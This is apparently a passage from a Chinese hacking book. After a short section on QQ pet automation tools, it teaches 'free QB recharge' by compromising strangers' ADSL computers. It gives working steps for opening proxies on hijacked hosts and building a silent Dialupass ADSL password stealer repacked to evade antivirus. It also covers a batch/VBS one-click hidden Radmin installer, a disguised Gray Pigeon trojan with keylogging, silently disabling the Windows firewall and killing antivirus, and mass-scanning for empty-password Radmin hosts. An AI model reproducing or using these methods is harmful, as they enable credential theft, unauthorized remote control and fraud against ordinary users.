| 10 | 105 |
| 11 | 136 |
| 12 | 173 |
| 13 | 216 |
| 14 | 266 |
| 15 | 323 |
| 16 | 388 |
| 17 | 459 |
| 18 | 539 |
| 19 | 628 |
| 20 | 727 |

这样看起来明白多了吧！

### QQ 宠物辅助工具

随着QQ宠物的推出，相应的软件也层出不穷。这里给大家介绍的是QQ宠物辅助工具，它是专门为广大拥有宠物的朋友升级自己的宠物时使用的，最新版本为V2.0，是经过反复更新的版本，这个版本已经有了很大的功能改进了：

- 1. 增加了宠物自动打工功能，因此请在10~15级之间使用此版本。
2. 增加了自动买物品功能，以后不用买东西，也不用担心宠物饿死，全部交给辅助工具吧！
3. 增加图像定位功能，找点更准确。
4. 支持24小时挂机，脚本稳定。
5. 采用800×600分辨率，缩小了找点范围，查询更准确。
6. 修正了宠物状态降低过快的问题。
7. 修正了因页面拆开速度慢引起的无法使用物品现象。

好了，来看看给宠物自动升级前需要做的准备工作。首先打开QQ宠物辅助工具V2.0.EXE，界面如图1。这个是用来定义热键的，默认是F11开始，F12停止。这里注意一下程序运行后会在目录下生成3个文件，这是正常现象。将你的QQ宠物图标（任务栏右下角）弄到右数第3个，如图2。接下来要把你的QQ宠物放在快速栏的右边，宠物的脚要正好站在工具栏的上面，如图3。


好了，准备工作就这么多，接下来就是开始挂机了，把鼠标放到左上角然后按下F11，开始挂机喽！祝大家的宠物又肥又大！

### QQ宠物计算器（5.3）

这回给大家介绍的是 QQ 宠物计算器。它能够方便各位宠物一族们快速计算出自己宝宝升级所需的时间。这个工具可以进行宠物等级时间、成长值以及 QQ 等级所需时间的计算。双击运行后，在上方选择宠物等级即可看到所需升级时间；选择“不干活”或“打工一族”可计算对应时间；输入当前成长值与目标等级可计算所需成长值；下方还可计算 QQ 等级升级时间。总体来说，这是一款适合挂机一族与宠物一族使用的实用工具。


### QQ宠物辅助工具之 Q 宠保姆（5.4）

要想让你的 QQ 宝宝长得又肥又壮又健康，就得随时关注它的成长。Q 宠保姆这类辅助工具可以在设置后自动关注宠物状态，减少手动操作。文中示例版本为 1.3.0.7，运行后可通过“状态”“设置”等按钮进行配置，主要包括 QQ 号、清洁值、自动逗宠、打工设置、工种选择等；设置完成后保存即可。最后点击“开始”即可运行。照顾 QQ 宠物与照顾真实宠物类似，需要关注饱食、清洁、心情和健康状态，避免连续错误操作导致效率降低。


图1


图2

### QQ宠物辅助工具之QQ宠物助手

### 宠物辅助工具之Q宠奶妈

QQ宠物助手是一款比较不错的软件，我使用的是1.55版本，其运行后的界面如图1所示，QQ宠物助手默认给出了一个免费的账号，我们使用该账号登录后的界面如图2。


QQ宠物助手初始化设置的说明如下。

- **初始化设置第一步**：先看一下QQ宠物的小档案；
- **初始化设置第二步**：在QQ宠物中按鼠标右键，然后点喂养宠物，按F2进行初始化，或者直接点开始初始化进行初始化。
- 初始化完毕后，把参数调整一下，主要包括饥饿度、清洁度、心情、健康度等，一切就绪后按“应用”开始挂机。

Q宠奶妈，这个名字有创意吧！这是一个比较综合的辅助工具，推荐各位朋友使用，我使用的版本为2.6。

Q宠奶妈运行后的界面如图1，显示的很详细，选择设置后就会出现设置栏，如图2，主要包括“喂食”、“洗澡”、“打工”、“状态”、“日志”等几项，我们分别设置好后按“保存设置”，一切就绪后再按“开始”就完成了！


总的来说照顾QQ宠物就像照顾真实宠物一样，需要我们花费很大的耐心才能让宝宝健康快乐的长大，就算我们使用了这些辅助工具，也应该经常登录上去，亲自关注一下宝宝的情况，毕竟程序可不是人。其它相关养宠物的工具，大致的使用都是如此的，就不过多介绍了。

## 第六章
## QB充值大曝光

### 基础篇

### 6.1 之代理全接触

要想学如何免费充QB，就必须先了解代理是什么？以及代理如何安装？这篇文章将向大家介绍代理的一些基本知识！

#### 一、什么是代理

代理服务器英文全称是Proxy Server，其功能就是代理网络用户去取得网络信息。形象地说：它是网络信息的中转站。一般情况下，我们使用自己的浏览器直接去连接其他Internet站点取得网络信息时，须送出Request信号来得到回答，然后对方再把信息以bit方式传送回来。代理服务器是介于本地浏览器和Web服务器之间的一台服务器，有了它之后，浏览器不是直接到Web服务器去取回网页而是向代理服务器发出请求，Request信号会先送到代理服务器，由代理服务器来取回浏览器所需要的信息并传送给你的浏览器。而且，大部分代理服务器都具有缓冲的功能，就好象一个大的Cache，它有很大的存储空间，不断将新取得的数据储存到本机的存储器上，如果浏览器所请求的数据在它本机的存储器上已经存在而且是最新的，那么它就不重新从Web服务器取数据，而直接将存储器上的数据传送给用户的浏览器，这样就能显著提高浏览速度和效率。更重要的是：Proxy Server是Internet链路级网关所提供的一种重要的安全功能，它的工作主要在开放系统互联模型的对话层。大家可以看看，图1为代理服务器的基本工作原理图，简单的说，代理就是你与服务器中间的一台计算机，就好比翻译一样它将英文翻译成中文然后再传递给你，你则将中文传递给它，它翻译成英文后传递给服务器，再返回你想要的信息，你也可以理解为它是一个中介人将你与另外一个人联系起来，将你的信息传递给他，将他的信息反馈给你，它所起的作用就是信息中介！


图1

#### 二、代理的最初作用

- 1. **共享网络**

最常见的可能是使用代理服务器共享上网，很多人不知不觉中就在用，比如通过sygate、wingate、isa、ccproxy、NT系统自带的网络共享等，可以提供企业级的文件缓存、复制和地址过滤等服务，充分利用局域网出口的有限带宽，加快内网用户的访问速度，可以实现仅仅有一条线路一个IP，带局域网用户上网的功能，同时也可以做为一个防火墙，隔离内网与外网，并且能提供监控网络和记录传输信息的功能，加强了局域网的安全性，也便于对上网用户进行管理。

- 2. **提高网站访问速度**

提高下载速度，突破下载限制。比如有的网站提供的下载资源，做了单IP单线程的限制，这时候可以用影音传送带设置多线程，为每个线程设置一个代理。对于限制一个IP的情况很好突破，只要用不同的代理服务器，就可以同时下载多个资源，适用于从WEB和FTP上下载的情况。不过如果是论坛里面的资源，每个用户一个帐号，并且限制一帐号一IP，代理服务器就突破不了。还有一种情况，比如我们这里，电信的用户访问不了联通的电影网站，联通的用户访问不了电信的电影网站，这种情况只要电信的用户找一个联通的代理服务器，IP地址属联通就行；联通用户找一个电信的代理服务器，就可以去电影网站下载。

某电影。教育网还可以通过代理服务器使无出国权限或无访问某IP段权限的计算机访问相关资源。本身带宽较小，通过带宽较大的proxy与目标主机连接，来达到提高浏览速度的目的！

- 3. **隐藏身份（注：充QB用到的就是这个功能）**

代理服务器知识是黑客的基本功之一，黑客的很多活动都是通过代理服务器，比如扫描、刺探、对局域网内电脑进行渗透，黑客一般攻击的时候都是中转了很多级跳板，才攻击目标主机，隐藏了身份，保证了自己的安全（这个就是充QB的关键部分）。

- 4. **防止攻击**

隐藏自己的真实地址，防止被黑客攻击。通过分析指定IP地址，可以查询到网络用户的目前所在地，例如，大家在一些论坛上看到，论坛中明确标出了发帖用户目前所在地，这就是根据论坛会员登录时的IP地址解析的。还有平日里我们最为常用的显IP版QQ，在“发送消息”窗口中，可以查看对方的IP及解析出的地理位置，而当我们使用相应协议的代理服务器后，就可以达到隐藏自己当前所在地址的目的了。

- 5. **突破一些限制**

代理服务器还可以突破网络限制。比如局域网对上网用户的端口、目的网站、协议、游戏、即时通讯软件等的限制，都可以使用代理服务来突破。举个例子：GOOGLE我们都喜欢用，其实GOOGLE有一个功能就有点类似于代理服务器，就是网页快照，现在网站经常发生变动，地址或者网站关了，网站服务器发生故障了，或者已经更新了，但我们仍然要查以前非常有用的资料，网页快照就派上用场了，Google以其复杂而全自动的搜索方法排除了任何人为因素对搜索结果的影响，保证了网页排名的客观公正，Google可以方便、诚实、客观地帮你在网上找到有价值的资料，GOOGLE有一个海量的数据库，如果找不到服务器，Google储存的网页快照也可救急。虽然网页快照中的信息可能不是最新的，但在网页快照中查找资料要比在实际网页中快得多，这时可以通过加密代理访问Google，再访问其网页快照来救急。

#### 三、代理的分类

##### 1. 代理服务器的用途分类

- Http代理（充QB用的代理）：代理客户机（本地）的http访问，主要通过本地浏览器访问网页，它的端口一般为80、8080、3128等。
- SSL代理：支持最高128位加密强度的http代理，可以作为访问加密网站的代理。加密网站是指以https://开始的网站，ssl的标准端口为443。
- HTTP CONNECT代理：允许用户建立TCP连接到任何端口的代理服务器，这种代理不仅可用于HTTP，还包括FTP、IRC、RM流服务等。
- FTP代理：代理客户机上的ftp软件访问ftp服务器，其端口一般为21、2121。
- POP3代理：代理客户机上的邮件软件用pop3方式收邮件，其端口一般为110。
- Telnet代理：能够代理通信机的telnet，用于远程控制，入侵时经常使用，其端口一般为23。
- Socks代理：是全能代理，就像有很多跳线的转接板，它只是简单地将一端的系统连接到另外一端。支持多种协议，包括http、ftp请求及其它类型的请求。它分socks4和socks5两种类型，socks4只支持TCP协议而socks5支持TCP/UDP协议，还支持各种身份验证机制等协议，其标准端口为1080。
- TUNNEL代理：经HTTPTunnet程序转换的数据包封装成http请求（Request）来穿透防火墙，允许利用HTTP服务器做任何TCP可以做的事情，功能相当于Socks5。

##### 2. HTTP代理按匿名功能分类

- 匿名代理：使用此种代理时，虽然被访问的网站不能知道你的IP地址，但仍然可以知道你在使用代理，有些侦测IP的网站也仍然可以查到你的IP。
- 高度匿名代理：使用此种代理时，被访问的网站不知道你的IP地址，也不知道你在使用代理进行访问，此种代理的隐藏IP地址的功能最强。

##### 3. 文献代理分类

- 教育网代理：指学术教育机构局域网通过特定的代理服务器可使无出国权限或无访问某IP段权限的计算机访问相关资源。
- 跳板代理：应用于跳板程序，可以看作一种具有动态加密的特殊socks5代理，也可直接用于PSD软件，其端口一般为1813。
- Ssso代理：代理客户机上的ssso程序访问远程网站，具有SSL加密强度的超级代理，支持socks。
- Flat代理：代理客户机上的flatsurfer程序访问远程网站，具有高强度加密数据流的特殊代理。支持socks，最大可设置三次级联，可以设置穿越代理，其端口一般为6700。

SoftE代理：代理客户机上的SoftEther程序访问远程网站，应用虚拟集线器HUB和虚拟网卡技术，具备VPN功能及多种认证方式的代理，符合https协议。

##### 4. 按请求信息的安全性分类

- 全匿名代理：不改变你的request fields（报文），使服务器端看来就像有个真正的客户浏览器在访问它，当然，你的真实IP是隐藏起来的，服务器的网管不会认为你使用了代理。
- 普通匿名代理：能隐藏你的真实IP，但会更改你的request fields，有可能会被认为使用了代理，但仅仅是可能，一般说来是没问题的；其安全性可能比全匿名代理更高，有的代理会剥离你的部分信息（类似防火墙stealth mode），使服务器端探测不到你的操作系统版本和浏览器版本。
- elite代理：匿名隐藏性更高，可隐藏系统及浏览器资料信息等，此种代理安全性特强。
- 透明代理（简单代理）：透明代理的意思是客户端根本不需要知道有代理服务器的存在，它仅改变你的request fields（报文），并会传送真实IP。注意：加密的透明代理则是属于匿名代理，意思是不用设置使用代理了，例如Garden 2程序。

#### 四、总结

这里只是简单的介绍了一下代理的各种知识，让广大朋友知道代理不是你所想像的那种简单的概念！代理的知识是非常博大精深的，要想了解更多的关于代理的知识，大家可以去买专门的书籍来参考！当然最重要的还是要能在实际中掌握如何使用代理，毕竟眼过千遍不如手过一遍！

下面在讲讲充QB时利用了代理的哪些功能：刚开始的时候介绍代理就好像是一个网络信息的中转站，就是本地计算机通过浏览器向代理服务器的指定端口发出浏览某网页的请求，然后代理服务器下载该网页的内容再返回给你。举个例子吧，你通过61.1.1.1的代理服务器的80端口来上网，那么当你要浏览www.163.com网站时，就会先向61.1.1.1的80端口发出浏览www.163.com的请求，然后61.1.1.1收到你的请求之后下载www.163.com网站的内容完毕后再返回给你，这就是一个简单的代理工作原理了。

com，而是由代理去访问了，这样自然就达到了隐藏IP的目的，不就是满足了充QB的两个条件之一吗？我们就是通过这个代理的原理，来满足现在互联星空登录时需要IP限制的条件！就这么简单，现在懂了吧！


大家最关心的应该是代理服务器如何安装，以及如何使用？接下来我就向大家详细的讲解一下，网上有很多免费代理，当然了我们充QB不是需要免费代理，而是要开启ADSL帐号密码对应的那台电脑的代理，下边就来看看代理服务器详细的架设方法。

第一种方法是利用开启http代理的小工具http.exe来开启，这款工具是在命令行方式下使用的，可能某鸟朋友不怎么喜欢，其实黑客工具中有很多都是必须在命令行方式下使用的，我们来看看它的用法，“开始”→“运行”→输入cmd，然后利用cd以及cd..命令切换到http.exe所在目录下，输入http.exe可以看到它的使用帮助：

```
C:\jiaocheng>http.exe
Tiny HTTP Proxy V1.0(ICQ Supported) By WinEggDrop

Usage: http.exe ProxyPort [AllowedIP]
Example: http.exe 8090
Example: http.exe 8090 210.11.*.*
```

用法很简单，http.exe 代理开的端口 允许连接的IP，具体使用的时候我们用的最多的是这条命令。“http 端口”，后面还可以加上参数来限制连接的IP。举个例子帮助大家理解，比如我现在获得了一台ADSL的宽带密码帐号，那么我现在需要的就是它的IP地址了，将http.exe上传到对方电脑上，然后在命令行下切换到http.exe所在目录，输入http 1234，这句命令的意思就是开启这台ADSL电脑的1234端口为http代理端口；要是我的IP地址为61.1.1.1的话，我们还能使用http 1234 61.1.1.1，这句的意思就是开启那台ADSL 肉鸡的 1234 端口为代理端口，并且只允许 IP 地址为 61.1.1.1 的用户来连接此端口。

输入命令后的 DOS 窗口不能关闭，要是关闭了就会自动停止代理工作。我们输入 `http 1234` 后如果开启成功会提示，如图 1。


“Waiting For Request” 说明已经处于监听状态了，等待别人连接代理端口并且发出请求。我们来实战演练一遍，这里用我的一台 Radmin 肉鸡，首先将 `http.exe` 这个工具上传到对方的任意目录下，我传到了对方的 `c:\winnt` 目录下，如图 2。直接拖动要上传的东西到肉鸡即可上传，然后关闭 Radmin 的文件管理窗口，打开 radmin 的远程 Telnet，如图 3。用 `cd` 以及 `cd..` 切换到 `http.exe` 所在目录下，如图 4。


输入 `http 963` 后回车，如图 5。好的，现在已经处于监听状态了，我们只要连接它的 963 端口就可以了，注意那个 telnet 窗口不能关闭，关闭了代理就不再监听了。首先来看看我的 IP，如图 6。我们分别讲一下使用 TT 浏览器，以及使用 IE 浏览器如何连接代理，其它的浏览器你可以自己试试，很简单的。


#### 1. 用 TT 连接代理

选择 TT 上面的“工具”→“WWW 代理”→“设置代理”，如图 7。点击后弹出一个设置对话框，如图 8。首先点击右边的“新增”按钮，然后下面的框中由灰色变为可写的，如图 9。“名称”中随便写，“地址”中输入刚刚开启代理的 IP，端口中输入刚刚给肉鸡开的代理端口，这里填 963，下面的用户名密码不用写，设置好后如图 10。点击“确定”，现在我们已经设置好了代理服务器了，最后再次打开上面的“工具”→“WWW 代理”→选上刚刚添加的代理，如图 11，这才算是应用上了代理，现在我们再来访问 `www.ip138.com` 看看 IP 变了没有，如图 12。

IP 地址由刚才的 219.144 变成了 219.153.*.*，说明开启成功，再来看看刚才监听的 telnet 窗口有没有反应，如图 13。可以看到窗口出现请求与数据发送的显示，这就是 http 代理开启成功的又一个标志。


### 2. 用IE连接代理

打开IE后选择上面的“工具”-“internet选项”，如图14。在弹出的internet选项对话框中切换到“连接”，如图15。点击下面的“局域网设置”，在弹出的对话框中勾选上“代理服务器”下面的那个选项，然后下面的“地址”还有“端口”变成可写状态，我们在其中输入刚才开启代理肉鸡的端口还有IP地址，如图16，然后确定，再来看看IP是否变了，如图17。

代理的第二种安装方法就是使用灰鸽子自带的开启HTTP代理功能，它在灰鸽子中的“远程控制命令”→“代理服务”中，如图18。最后还要注意的是，一般ADSL肉鸡都是WinXP + SP2，默认开启了防火墙，如果不关闭防火墙开启了代理也连接不上，后面我会专门讲讲关闭防火墙的办法！


## 无 QB 必读 之制作一键搞定 ADSL 密码


前面讲了获取不同拨号软件下 ADSL 账号密码的原理，不知道大家发现没有？我并没有说 XP 以及 Win2003 下的密码如何获取，现在我就给大家介绍一个可以获取 XP、Win2003 宽带账号密码的软件！

它就是我们这篇文章要介绍的主角——“Dialupass”，这款软件只要双击打开后任何上网密码都逃不过它的法眼，如图1。


但是这款工具必须双击后才能看到帐号密码，这样很不安全，总不能直接在肉鸡上打开它吧！下面我就教你一个方法，可以一键搞定 ADSL 上网账号密码，运行后不会有任何反应也没有任何提示框出现！

要用到 Dialupass 帮助文件中提到的一个命令，其意思是将所有用户以及密码的结果保存到指定 html 文件中。

```
Dialupass.exe /allusers /shtml "c:\dialup.html"
```

你可以在 cmd 下切换到 Dialupass.exe 所在目录，然后输入这条命令看看 C 盘下是不是生成 dialup.html，再打开它看看，你的 ADSL 密码账号全在里面吧！如图2、图3。


好了知道了原理开始打造我们的一键获取 ADSL 账号密码的东西，其实只要将它做成一个自解压文件就可以达到一键获取账号密码的目的了，将 Dialupass.exe 改成你喜欢的名字，然后在它上面右键单击选择“添加到压缩文件”，如图4。


在弹出的“压缩文件名和参数”对话框中勾上“创建自解压格式压缩文件”，可以看到上面的文件后缀从 .rar 变成了 .exe，如图5。接着切换到“高级”选项卡中单击“自解压选项”，如图6。


弹出“高级自解压选项”，我们在解压路径中不要输入任何路径。下面的“解压后运行”中输入：

```
sys.exe /allusers /shtml "pass.txt"
```

设置好后如图7。接下来的一定要注意了，切换到“模式”选项卡，选上“全部隐藏”还有“覆盖所有文件”，如图8。


## 6.4 打造免杀ADSL一键密码读取器


工具有了，现在就开始打造我们的免杀ADSL一键密码读取器。开始前先来看看各大杀毒软件是否查杀 dialupass.exe，先用 KV 试试，如图1。点击“否”不清除，再来看看瑞星是否查杀它，如图2。


点击“确定”生成，这样我们的“一键搞定 ADSL 密码”就基本上做好了。为什么说是基本上呢？因为它还是会被杀毒软件查杀的，这里只是简单教大家怎么做，还没有讲到免杀的制作过程。后面的文章会详细讲解。现在来说说刚才为什么不在解压路径中输入任何路径，以及在解压后运行中输入的是 `sys.exe /allusers /shtml "pass.txt"`，在这里将 `sys.exe` 换成你改名后的程序。设置好后，不管上传到什么目录，只要运行就能在当前目录生成 `pass.txt`，里面存放账号密码，支持 DOS 下运行。

点击“忽略”，可以看到在没有加壳前瑞星以及 KV 都可以查杀它。测试时发现卡巴斯基竟然不查杀该文件。我们继续，下一步就是先来脱壳。怎么脱？脱壳就要知道它当前加的是什么壳，我们拿出 PEiD 来看看 dialupass.exe 加的是什么壳，运行 PEiD 界面如图3。点击带有“...”图案的按钮，选择我们的 dialupass.exe 文件，如图4。打开后马上会在主界面中看到有显示了，如图5。


前面教大家制作的那个 ADSL 密码读取工具，是不是发现问题了？将它传到肉鸡上经常还没运行，就被杀毒软件杀了，真是郁闷！这回小鱼教大家制作一个“咱菜鸟自己的免杀 ADSL 密码读取器”！

既然咱们都是菜鸟，那么像修改特征码之类的方法俺们都不会，怎么办呢？对了，我们可以脱壳再加壳！好，先来看看需要的工具：

- 1. **dialupass.exe**：ADSL 密码读取器原版
- 2. **PEiD**：软件脱壳必备工具，用它可以看出软件加的是什么壳
- 3. **UPX 专用脱壳工具**：针对 UPX 脱壳程序，操作简单实用
- 4. **WinUpackC.exe**：一款可用的新壳工具，推荐尝试

可以看出 dialupass.exe 默认加的壳是 “UPX ... / Markus & Laszlo”。

即UPX的壳，知道了它加的是什么壳，我们就去找找相应的脱壳工具，网上很多很多，我这里已经给大家找好了一款——“UPX专用脱壳工具”，双击打开它，如图6。


选择dialupass.exe，然后点击下面的“脱壳”，再选择一个保存路径，如图7。点击“保存”，这样就得到了没有加壳的dialupass.exe，大家先别急着加壳，脱壳之后要看看程序是否运行正常，我们双击脱壳后的dialupass.exe，如图8。OK，运行成功，那么我们开始给它加壳，拿出WinUpackC.exe，界面如图9，选上前5项，如图10。


再选择脱壳后的dialupass.exe，点击“压缩”，如图11。运行看看是否正常使用，OK！通过，现在来干最后一步，右键单击加好壳后的dialupass.exe，在弹出的菜单中选择“添加到压缩文件”，弹出“压缩文件和参数”的窗口，将“创建自解压格式压缩文件”前面的勾选上，如图12。


再切换到“高级”选项，单击其中的“自解压选项”，弹出高级自解压选项，解压路径中什么也不用输入，在“解压后运行”中输入“test.exe /allusers /shtml "pass.html"”，其中的test.exe换成你加壳后的dialupass.exe的名字，pass.html可以随便换，如图13。


再切换到“模式”选项中记着一定要选上“全部隐藏”以及“覆盖所有文件”，如图14。然后还能再选择一个好看的图标，点击确定生成了我们的免杀ADSL一键密码读取器，用瑞星还有KV测试一下，如图15、图16。


怎么样，免杀了吧！其实大家还可以利用这个方法，将其他的冲QB或者盗QQ密码的程序做成免杀的，这里我就不详细讲了，可以参照此文及动画！

## 挂机篇之 Radmin配置

Radmin 是一款远程控制软件，目前市场上的绝大多数杀毒软件是不会查杀它的，因为它主要是网管们用于远程管理机器的好工具。下边给大家讲讲 radmin 的配置，主要是为了后面的利用 Radmin 冲 QB 做准备，使用的是“Radmin3.2 影子版”，来看看配置过程！首先安装 Radmin3.2 影子版，如图1。安装过程很简单我就不讲了，安装成功后在桌面生成“影子版服务端设置”，我们双击运行它，如图2。


配置一下 radmin 的一些基本设置，记得配置前先注册，注册码工具中已经带了。点击“设置密码”，来给 Radmin 设置一个密码，如图3。再点击“设置参数”，这里一定要选上“隐藏状态栏图标”前面的勾，否则配置出来的 radmin 运行后右下角会有图标显示，很容易被发现。


以设置任意一个端口，如图4。设置好后点击确定，退出服务端设置。下面开始配置“一键安装 Radmin 服务”。在你设置好密码端口等一些基本设置后，我们打开注册表，展开注册表到：`HKEY_LOCAL_MACHINE\SYSTEM\RAdmin`，选中 Radmin 这个项，点击上面的“注册表”→导出注册表文件，如图5。将它导出为 `set.reg`，这里面保存的是 Radmin 的一些配置信息，比如我们连接肉鸡 Radmin 时要求输入的密码等。再到 Radmin 的安装目录，默认安装目录为 `c:\Program Files\Radmin 影子版`，找到 `r_server.exe`、`raddrv.dll`、`AdmDll.dll` 这三个文件，把它们复制到跟刚刚导出的 `set.reg` 同一目录。


```
@echo off
@net stop r_server
@r_server.exe /install /silence
@regedit /s set.reg
@net start r_server
@attrib +a +s +h %systemroot%\system32\r_server.exe
@attrib +a +s +h %systemroot%\system32\admdll.dll
@attrib +a +s +h %systemroot%\system32\raddrv.dll
@del set.bat
@del set.vbs
```

将其重命名为 `set.bat`，再右键新建文本文件输入相关命令。

```vb
On Error Resume Next
set wshshell=createobject("wscript.Shell")
a=wshshell.run("\"set.bat\"",0)
```

利用这个VBS脚本文件来调用我们的BAT文件，这样的好处就是，不会有任何窗口一闪而过，将它命名为`set.vbs`，所有需要的文件，如图6，用鼠标全部选择，右键单击弹出的菜单中选择“添加到压缩文件”，选择“创建自解压格式压缩文件”，如图7。

再切换到“高级”→“自解压选项”，在路径中输入`%systemroot%\system32\`，在下面的“解压后运行”中输入`\.set.vbs`，如图8。在模式中选上“全部隐藏”以及“覆盖所有文件”，如图9。确定后我们的一键Radmin就做好了！

## 八 QQB 灰鸽子服务器配置篇

现在我再来讲解一下灰鸽子的详细配置过程！灰鸽子是一款远程控制和管理计算机的工具，同时也是广大木马爱好者的必备工具；它具有：

- 1. 对远程计算机文件管理，模拟Windows资源管理器，可复制、粘贴、删除、重命名、远程运行等。
- 2. 远程控制命令，查看系统信息、窗口、进程、注册表、键盘记录、服务管理等。
- 3. 捕获屏幕，连续抓取远程电脑屏幕并传回本地。
- 4. 视频监控，可监控远程控制端。
- 5. 语音监听与发送，可进行远程主机语音对话。
- 6. 键盘记录，记录远程计算机键盘输入信息。
- 7. 注册表模拟器，可像本地一样操作远程注册表。
- 8. 代理服务：开启服务端开放Socks5和http代理服务功能。
- 9. 命令行：可自动让主机执行命令及播放、关机、重启、打开网页等；可对符合条件主机批量操作。

更多功能还需要大家在使用中去发现，这里讲一下灰鸽子的配置。很多朋友在QQ上问我为什么“配置好了点击生成后出现用户名或密码错误”？灰鸽子是一款注册软件，需要注册后才可以正常使用，注册费用为100元/年，购买后会得到相应用户名和密码，用这个用户名以及密码来生成灰鸽子即可。可是我们菜鸟哪有钱呢？为了方便讲解我以破解版为例讲一下如何配置服务端。来看看我们都需要什么：

- 1. 灰鸽子sunay破解版（这个比较好用）。
- 2. 灰鸽子在线升级服务端。

## 第六章 QB灰鸽大曝光

首先打开“灰鸽子在线升级服务端”，如图1。然后输入hacker365密码账号都一样，点击“登陆系统”，登陆成功后，如图2。

这里全部都是灰鸽子服务端的配置文件，破解的时候需要用到的Ver1.2-0705.rar，还有config1.0.asp是1.2版本的最新服务端。vip20050627.rar，还有config2005.asp这两个是vip2005版的服务端配置文件，我们点击下载，完毕后如图3。

我以VIP2005版本为例来破解，想要破解V1.2版本的也是一样，将下载好的config2005.asp与vip20050627.rar复制到灰鸽子sunray破解版的目录下，覆盖掉原来的服务端，删除那个vip_2005_0113，然后运行sunray.exe来修改本地的host文件，运行http.exe，点击“开启服务”，如图4。

下面就可以打开灰鸽子主程序进行配置了，点击上面的“配置服务程序”，在备用上线中输入你申请好的126动态域名，下面的密码写不写无所谓，主要是用来连接肉鸡时输入的密码，如图5。

安装选项中，你可以将安装名称改的迷惑一点，我改成IEXPLORER.EXE，选下面的“自动删除安装文件”，还有“程序运行后启动键盘记录”，如图6。其他的默认就可以了，再选择一个好看的图标，如图7。高级选项中可以根据需要选择是否加壳，默认加的是upx壳，接着在下面的用户名和密码中随便输入，点击生成即可，如图8。

这样一个灰鸽子就配置好了，然后发给别人运行。这里要注意在网吧或者局域网的用户不能直接使用灰鸽子，你可以去www.hugezi.com那里下载相关的内网使用的教程，这里就不再多讲了。

## 6.7 充QB必读之防火墙通杀篇

满足充QB的两个条件时，遇到最多的就是对方有防火墙或者杀毒软件之类的东西。如果你传上去的工具经常被杀怎么办？这里以灰鸽子为例来讲讲怎么突破对方的防火墙。既然它们都是我们的肉鸡了，那还用怕它的什么杀毒软件吗，我们可以直接使用灰鸽子自带的进程中止来中止掉杀毒软件的进程，这里以KV江民为例，来看看江民杀毒软件的进程，如图1。

其中黑线标注的就是江民的进程了，只要用灰鸽子自带的进程中止将它中止掉就OK了，如图2。然后我们就可以尽情地在上面上传东东了！

再来看看要是有防火墙怎么办？我这里将防火墙分为两大类：

- 1. Windows自带防火墙

#### 1. 注册表法突破

这类防火墙是时下最流行的防火墙，也是中国网民用得最多的防火墙。一般ADSL肉鸡都是XP + SP2的系统，防火墙自然就是使用系统自带的Windows防火墙。

Windows自带的防火墙以服务方式启动，虽然是系统自带，也方便了很多人免去安装防火墙的麻烦，但是有一个致命缺点：它对于程序是否具有访问权限，主要依赖注册表信息判断。因此只要修改注册表即可突破其防线。

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\AuthorizedApplications\List
```

在 `AuthorizedApplications\List` 下保存的格式类似：`"%systemroot%\\system32\\drivers\\Update.exe"="%systemroot%\\system32\\drivers\\Update.exe:*:Enabled:updata"`。前者为路径，`*` 表示所有端口，`Enabled` 表示允许访问网络，`updata` 为在Windows防火墙“例外”中的显示名称。

```
"%systemroot%\\system32\\a.exe"="%systemroot%\\system32\\a.exe:*:Enabled:aaa"
```

这样就设置 `a.exe` 允许访问网络，并在Windows下显示名称为“aaa”。上面讲了很多注册表改写的内容，下面跟着操作：右键桌面，在菜单中选择新建文本文档，如图4，双击打开并输入相关内容。

再将文件另存为“xp.reg”，如图5。然后如果你是 XP 或者 Win2003 的系统，双击导入这个注册表文件，再马上到 Windows 防火墙设置中看看，如图6。

是不是防火墙已经被禁用了？利用这个注册表文件我们就能轻轻松松突破防火墙充 QB 了！可以在命令行下用 `regedit /s xp.reg` 来导入这个注册表文件，这样不会有任何提示，对方的防火墙在不知不觉中已经被你关闭了！

### 2．利用软件实现

如果你觉得刚刚制作注册表文件来关闭 Windows 自带防火墙的方法很麻烦，可以试试 `xo.exe` 这个小工具，它可以在运行后自动关闭 Windows 的防火墙。先查看防火墙设置情况（图7），然后在 cmd 下切换到程序目录，输入 `xp.exe`（图8），再查看防火墙是否关闭（图9）。运行程序后 Windows 防火墙打不开了，可以将其上传运行后再去弄 ADSL 帐号及密码。

#### 二、第三方软件

这类软件一般都是系统不自带的，比如天网、瑞星防火墙等。突破这类防火墙较容易，因为其与木马软件类似，多以进程方式存在；只要进程被中止就无法工作。可以用灰鸽子自带的进程中止功能，或者使用 `kill.exe`。运行后界面如图10，列出所有进程，输入 `kill pid值` 即可中止对应 PID 的进程。

## 6.8 瞬间挖掘 QB 方法——4899

给大家介绍一个绝对适合菜鸟的方法，就是扫描 4899 空口令！虽然这是很早就有的方法了，可是很少有人想到利用它还可以充 QB。经过我测试后，发现可以充到 QB，而且还是能够扫到很多的，尤其是 ADSL 网段的 4899。现在的 4899 虽然比以前少了很多，但是当初很多人都是为了拿来当肉鸡而扫描的，因此大多都是扫静态 IP，因为动态 IP 基本上都是 ADSL 机器配置，并且不方便管理，扫到了也没有什么实际的用处。但是现在不一样了，我们就是专门扫描动态 IP 上的 4899 来冲 QB！好了，先看看需要什么工具：

- 1. 端口扫描器：这里推荐使用 s.exe，用这个扫描速度较快！
- 2. 4899 空口令扫描器。

首先在“开始”→“运行”→输入 cmd，再用 cd 以及 cd..，切换到 s.exe 所在的目录下面，输入 s.exe，出现使用说明：

```
C:\Documents and Settings>s.exe
TCP Port Scanner V1.1 By WinEggDrop

Usage: s.exe TCP/SYN StartIP [EndIP] [Ports] [Threads] [/Banner] [/Save]
Example: s.exe TCP 12.12.12.12 12.12.12.254 80 512
Example: s.exe TCP 12.12.12.12 1-65535 512
Example: s.exe TCP 12.12.12.12 12.12.12.254 21;3389;5631 512
Example: s.exe SYN 12.12.12.12 12.12.12.254 80
Example: s.exe SYN 12.12.12.12 1-65535
Example: s.exe SYN 12.12.12.12 12.12.12.254 21;80;3389
```

可以看到用法很简单，假如我们要扫描 219.100.1.1 到 219.100.255.255 上的所有开放了 4899 端口的主机，并且要将结果保存为文本文件，那么我们就这么输入：

`s.exe SYN 219.100.1.1 219.100.255.255 4899 /save`

在 cmd 下输入后如图1。这里扫描的是 219.1.1.1 到 219.255.255.255 的 IP，意思就是所有 219 开头的 IP，大家可以把范围选大一些，这样收获就会多一些。

